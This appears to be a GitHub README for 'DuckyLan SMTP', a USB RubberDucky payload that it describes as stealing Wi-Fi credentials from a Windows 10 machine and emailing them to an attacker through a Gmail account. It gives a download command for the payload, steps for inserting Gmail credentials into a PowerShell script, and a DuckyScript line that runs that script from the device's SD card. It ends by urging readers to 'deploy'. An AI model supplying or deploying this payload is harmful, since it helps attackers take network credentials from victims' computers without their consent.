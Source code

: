 # DuckyLan SMTP 
> Blue Cosmo

---

```
________                 __           .____                   
\______ \  __ __   ____ |  | _____.__.|    |   _____    ____  
 |    |  \|  |  \_/ ___\|  |/ <   |  ||    |   \__  \  /    \ 
 |    `   \  |  /\  \___|    < \___  ||    |___ / __ \|   |  \
/_______  /____/  \___  >__|_ \/ ____||_______ (____  /___|  /
        \/            \/     \/\/             \/    \/     \/
```

## Overview:
A USB RubberDucky payload that steals Wi-Fi credentials and sends them to the attacker via STMP.

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- [Twin-Duck firmware](https://www.youtube.com/watch?v=BzYH-BPHLpE)
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Download:
```bash
svn checkout https://github.com/CosmodiumCS/payloads/trunk/rubberducky/DucKey-Logger
```

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 15 of *payload.txt*, change 'W' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'W'}|select name;cd $u.name;./p.ps1;exit
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

---

- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)

#projects #malware 